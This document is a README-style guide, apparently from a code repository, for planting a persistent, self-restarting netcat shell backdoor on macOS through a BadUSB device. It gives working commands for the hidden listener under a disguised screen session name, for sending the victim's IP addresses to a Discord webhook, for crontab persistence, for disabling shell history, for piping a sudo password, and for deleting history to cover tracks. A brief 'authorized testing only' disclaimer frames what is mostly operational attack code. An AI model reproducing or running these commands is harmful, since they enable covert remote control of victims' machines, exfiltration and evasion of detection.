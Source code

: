 # **Mac Endless Reverse Shell**

### **Introduction**

This guide provides step-by-step instructions for setting up an interactive reverse shell on MacOS systems using **`nc`** (netcat). It is intended for educational purposes or authorized security testing only. Unauthorized access to computer systems is illegal and unethical. Please ensure you have proper authorization before attempting any actions described in this guide.

For additional commands and data on reverse shells, refer to the [HackTricks documentation](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys#full-tty).

## **Setup Instructions**

---

### **1. Establishing the Reverse Shell on the Target Machine via BadUSB**

**Objective:** Start a reverse shell listener on the target machine as a background process using **`screen`**.

`screen -dmS upd_check bash -c 'unset HISTFILE; set +o history; trap "pkill -P \$\$" SIGINT SIGTERM; while true; do rm -f /tmp/f; mkfifo /tmp/f; nc -l 9123 < /tmp/f | bash -i > /tmp/f 2>&1 & nc_pid=$!; (sleep 300 && kill -9 $nc_pid 2>/dev/null) & wait $nc_pid; done'`

**Description**:

- **`screen -dmS upd_check`**: Starts a detached screen session named "upd_check" to run the following command.
- **`bash -c '...'`**: Launches a Bash shell and executes the provided command within it.
- **`unset HISTFILE`**: Prevents Bash from saving command history to a file.
- **`set +o history`**: Disables command history for the current shell session.
- **`trap "pkill -P \$\$" SIGINT SIGTERM`**: Sets up a trap to kill any child processes spawned by the command upon receiving SIGINT or SIGTERM signals (e.g., Ctrl+C).
- **`while true; do ... done`**: Creates an infinite loop to continuously execute the following commands.
- **`rm -f /tmp/f`**: Removes any existing FIFO file named "/tmp/f".
- **`mkfifo /tmp/f`**: Creates a new FIFO (named pipe) file named "/tmp/f" for communication.
- **`nc -l 9123 < /tmp/f | bash -i > /tmp/f 2>&1 &`**: Sets up a netcat listener on port 9123, redirecting input/output to the FIFO file, and starts a Bash shell with interactive mode (-i).
- **`nc_pid=$!`**: Stores the process ID (PID) of the netcat listener.
- **`(sleep 300 && kill -9 $nc_pid 2>/dev/null) &`**: Initiates a background process to sleep for 300 seconds (5 minutes) and then forcibly terminates the netcat listener process to trigger automatic reconnection.
- **`wait $nc_pid`**: Pauses execution until the netcat listener process terminates.

Then, send the external and internal IP addresses of the machine to a Discord channel. Replace **`YOUR_DISCORD_CHANNEL_TOKEN`** with your token inside the Ducky Script:
`external_ip=$(curl -s [ifconfig.me](http://ifconfig.me/)); internal_ips=$(ifconfig | grep -Eo 'inet (addr:)?([0-9]*\.){3}[0-9]*' | grep -v '127.0.0.1' | sed 's/inet //' | paste -sd "," -); json_payload="{\"content\": \"From Endless Reverse Shell BadUSB:\\nExternal IP: $external_ip\\nInternal IP(s): $(echo $internal_ips | sed 's/,/, /g')\\n----------------------------------------\"}"; curl -X POST -H "Content-Type: application/json" -d "$json_payload" "YOUR_DISCORD_CHANNEL_TOKEN" && unset external_ip internal_ips`

Not part of the Ducky Payload. For increased persistence, set the command as a crontab job (TCC permission is needed):
`@reboot /bin/bash -c 'unset HISTFILE; set +o history; trap "pkill -P \$\$" SIGINT SIGTERM; while true; do rm -f /tmp/f; mkfifo /tmp/f; (nc -l 9123 < /tmp/f | bash -i > /tmp/f 2>&1 || true) & nc_pid=$!; (sleep 300 && kill -9 $nc_pid 2>/dev/null || true) & wait $nc_pid; done'`

---

### **2. Configuring the Attacker's Machine**

**Objective:** Secure the reverse shell connection and prevent accidental disconnections.

- **Disable accidental interrupts:** Prevents the use of Ctrl+C from terminating the shell.

`stty intr ''  # Disable Ctrl+C`

- **Restore interrupt key:** Re-enables Ctrl+C functionality when needed.

`stty intr ^C # To reset`

- **Connecting:** Utilize **`rlwrap`** for a better shell experience when connecting to the target.

`rlwrap -r nc [TARGET_IP] 9123`

---

### **3. Managing the Session on the Victim's Machine**

**Objective:** Maintain stealth and control within the session.

- **Standard Shell Environment:** Enhances the shell for command execution without leaving history.
    
    `script -q /dev/null bash
    unset HISTFILE; set +o history && export PS1='\u@\h:\w\$'`
    
- **Executing Privileged Commands:** Executes commands as **`sudo`** without logging.
    
    `unset HISTFILE; set +o history && echo "password" | sudo -S whoami` 
    
- **Root Access:** Switch to root without command logging.
    
    `unset HISTFILE`
    

---

### **4. Cleanup on the Victim Machine**

**Objective:** Remove traces of the reverse shell session and terminate gracefully.

- **Command for cleanup processes that related to reverse shell:**

`nohup bash -c 'screen -S upd_check -X quit; sleep 3; screen -wipe; pkill -f "nc -l 9123"; ps aux | grep "[b]ash -i" | grep -v grep | awk "{print \$2}" | xargs -r kill -9; rm -f /tmp/f; rm -f ~/.bash_history' > /dev/null 2>&1 &`

- **Verification:** Confirm that all related processes are terminated and no listeners are active.

`ps aux | grep bash`

`screen -list`

`lsof -i :9123`

---

### **Important Note:**

The procedure incorporates an automatic re-establishment mechanism for the reverse shell connection every 5 minutes. This feature proves particularly valuable in scenarios where the reverse shell may be disrupted due to network instability or accidental closure of the initial connection. By utilizing a loop that periodically terminates the existing **`nc`** listener and initiates a new one, the command ensures that the attacker can regain access to the target machine without the need to redeploy the payload. This auto-reconnect functionality enhances the resilience of the reverse shell to disconnections and reinforces its persistence on the target machine, guaranteeing that temporary disruptions do not permanently sever the attacker's access.

### ***This procedure prioritizes operational discretion and effectiveness. Ensure you possess authorized access to the system before proceeding with this setup.***